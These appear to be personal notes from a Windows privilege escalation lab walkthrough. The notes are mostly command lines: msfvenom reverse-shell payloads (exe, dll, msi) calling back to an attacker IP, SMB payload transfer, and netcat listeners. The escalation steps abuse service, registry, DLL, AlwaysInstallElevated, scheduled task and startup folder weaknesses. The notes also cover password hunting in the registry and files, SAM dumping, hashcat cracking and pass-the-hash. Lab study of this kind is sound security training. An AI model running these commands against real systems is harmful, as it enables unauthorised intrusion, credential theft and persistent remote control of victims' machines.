start with rdp
```bash
xfreerdp /u:user /p:password321 /cert:ignore /v:10.10.130.87
```


# enerate a Reverse Shell Executable

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.9.5.46 LPORT=53 -f exe -o reverse.exe
# on kali
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .
# on windows
copy \\10.9.5.46\kali\reverse.exe C:\PrivEsc\reverse.exe
# setting listner
sudo nc -nvlp 53
# execute the program and u will get reverse shell
# to escalate from Admin -> System
.\PsExec64.exe -accepteula -i -s C:\PrivEsc\reverse.exe
```

# Tools

for enumeration use `PowerUp`, `SharpUp`, `WinPeas`. 

### PowerUp
```bash
. .\PowerUp.ps1
Invoke-allChecks
```




from here we can see interisting staff like unquoted file path



### SharpUp
```bash
.\SharpUp.exe
```

it return similar output as PowerUp

### Seatbelt
```bash
.\Seabelt.exe # it will return the help
```

### WinPeas
```bash
reg add HKCU\Console /v VirtualTerminalLevel /t REG_DWORD /d 1
.\winPeaSany.exe
```

# Kernel Exploit

```bash
systeminfo
```

then use `wesng`, `windows-kernel-exploits` or `watson`

# Service Exploits
## Insecure Service Permissions

```bash
# Service Commands
sc.exe qc <name> # Query the configuration of a service
sc.exe query <name> # Query the current status of a service
sc.exe config <name> <option>= <value> # Modify a configuration option of a service
net start/stop <name> # Start/Stop a Service
```

from `winpeas` we can do
```bash
.\WinPEASany.Exe quiet serviceinfo
# we can confirm that with
C:\PrivEsc\accesschk.exe /accepteula -uwcqv user daclsvc
```



set the binpath to our reverse shell



setup our listner 
```bash
nc -lvnp 53
```

start the service

```bash
net start dacksvc
```

and we did it

## Unquoted Service Path

from winpeas, PowerView we can see there is unquoted service path

```bash
# Checking service Configuration
sc qc unquotedsvc
# using accesschk.exe to check our permission in folders
C:\PrivEsc\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service\ "
# we have Permission to RW
```



so lets change it to our reverse.exe

after runing the program u should get shell

```bash
copy C:\PrivEsc\reverse.exe "C:\Program Files\Unquoted Path Service\Common.exe"
net start unquotedsvc
```



## Weak Registry Permissions

from winpeas we can see we can modify a registry



we can verify the permission using powershell or accesschk

```bash
Get-Acl HKLM:\System\CurrentControlSet\Services\regsvc | Format-List
.\accesschk.exe /accepteula -uvwqk HKLM\System\CurrentControlSet\Services\regsvc
# we are part of Authority\Interactive Group
.\accesschk.exe /accepteula -ucqv user regsvc
# check the current value in regsvc
reg query HKLM\System\CurrentControlSet\Services\regsvc
```

we can change the ImagePath Value to our reverse.Exe

```bash
# change the Value
reg add HKLM\SYSTEM\CurrentControlSet\services\regsvc /v ImagePath /t REG_EXPAND_SZ /d C:\PrivEsc\reverse.exe /f
# check
reg query HKLM\System\CurrentControlSet\Services\regsvc
# start the service
net start regsvc
```

## Insecure Service Executables

as regular from winpeas



using acceschk

```bash
C:\PrivEsc\accesschk.exe /accepteula -quvw "C:\Program Files\File Permissions Service\filepermservice.exe"
C:\PrivEsc\accesschk.exe /accepteula -uvqc filepermsvc
# we have start access
```

backup the file then change it with ur reverse.exe

```bash
copy C:\PrivEsc\reverse.exe "C:\Program Files\File Permissions Service\filepermservice.exe" /Y

net start filepermsvc
```

## DLL Hijacking

From winPEAS output we can see list of no-microsoft services
and the `check for DLL Hijacking in Path folders` we have write permission in `C:\Temp`

1. Check if u have write permissions in PATH folders
2. Check which services u have start and stop permission `accesschk.exe /accepteula -uvqc user dllsvc`
3. pick the binary to ur machine where u have admin privilege for analysis `Procmon64.exe`


as u can see the process cant find the hijackme dll and one of the folder it look at is where we have write permission

lets generate our reverse.dll

```bash
$ msfvenom -p windows/x64/shell_reverse_tcp lhost=10.9.5.46 lport=53 -f dll -o hijackme.dll
$ sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .
> copy \\10.9.5.46\kali\hijackme.dll C:\temp\hijackme.dll
$ nc -lvnp 53
> net start dllsvc
```

# Registry
## AutoRuns

from winpeas output in AutoRuns output we can see there is program everyone has access to



we can Query the registry for AutoRun executables
```bash
reg query HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
```

and check if we have write permission

```bash
C:\PrivEsc\accesschk.exe /accepteula -wvu "C:\Program Files\Autorun Program\program.exe"
```


so now we can overwrite the Executable by our reverse.exe
```bash
copy C:\PrivEsc\reverse.exe "C:\Program Files\Autorun Program\program.exe" /Y
```

windows when start will autorun the program with the last user privilege, in our case will be us so we will get normal shell, but if admin login then we reboot the system we can get shell

## AlwaysInstallElevated

from winpeas



let's query this manualy with
```bash
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer /v AlwaysInstallElevated
```

from kali lets generate reverse.msi

```bash
msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.9.5.46 LPORT=53 -f msi -o reverse.msi
sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali .
nc -lvnp 53
```

in windows 

```bash
copy \\10.9.5.46\kali\reverse.msi C:\PrivEsc\reverse.msi
msiexec /quiet /qn /i C:\PrivEsc\reverse.msi
```

# Passwords
## Registry

winpeas can help with that and we can query it manualy with
```bash
reg query HKLM /f password /t REG_SZ /s
reg query HKCU /f password /t REG_SZ /s
# Or query specific key
reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\winlogon"
```

On kali we can spawn CMD with winexe
```bash
winexe -U 'admin%password' //10.10.78.130 cmd.exe/powershell.exe
# add --system for system shell
```

## Saved Creds

```bash
cmdkey /list
```


we can see admin credentiels are saved

now we can use `runas` to get reverse shell

```bash
runas /savecred /user:admin C:\PrivEsc\reverse.exe
```

## Configuration Files

```bash
dir /s *pass* == *.config
# or
findstr /si password *.xml *.ini *.txt
```

from winpeas we can see there is credentiels in unattend.xml



## SAM

from winpeas we can see its locate the `SAM` and `SYSYEM` files



copy the two files to ur kali



with 



```bash
creddump7
python pwdump.py ~/Path/To/SYSTEM ~/Path/To/SAM
hashcat -m 1000 --force <hash> /usr/share/wordlists/rockyou.txt
```

## Pass The hash

we can use `pth-winexe` with the hash we found earlier to do pass the hash

```bash
pth-winexe -U 'admin%hash' //10.10.78.130 cmd.exe
```



# Scheduled Tasks

we can list all scheduled tasks that our user can see with
```bash
schtasks /query /fo LSIT /v
```

but here we can rely in enumerating the system and looking for files indecate schedule task
like `C:\DevTools\CleanUp.ps1` script in our case
```bash
type C:\DevTools\CleanUp.ps1
```

check if we have write permission

```bash
C:\PrivEsc\accesschk.exe /accepteula -quvw user C:\DevTools\CleanUp.ps1
```

we have write access so start our listner `nc -lvnp 53`

and append the reverse.exe to the scirpt :
```bash
echo C:\PrivEsc\reverse.exe >> C:\DevTools\CleanUp.ps1
```

Wait for the Scheduled Task to run, and u will get reverse shell

# Insecure GUI Apps

if we run the `paint` in the desktop and run
```bash
tasklist /V | findstr mspaint.exe
```

we can see that the paint is runing as admin, so as the process follow their parrent
we can use it to open admin cmd

from open write in search bar `file://C:/windows/system32/cmd.exe` 

# Startup Apps

start with checking if we have write access to StartUp directory
```bash
C:\PrivEsc\accesschk.exe /accepteula -d "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp"
```

create vps script

```bash
Set oWS = WScript.CreateObject("WScript.Shell")
sLinkFile = "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\StartUp\reverse.lnk"
Set oLink = oWS.CreateShortcut(sLinkFile)
oLink.TargetPath = "C:\PrivEsc\reverse.exe"
oLink.Save
```

run it with
```bash
cscript C:\PrivEsc\CreateShortcut.vbs
```

when admin login u should get ur shell

# 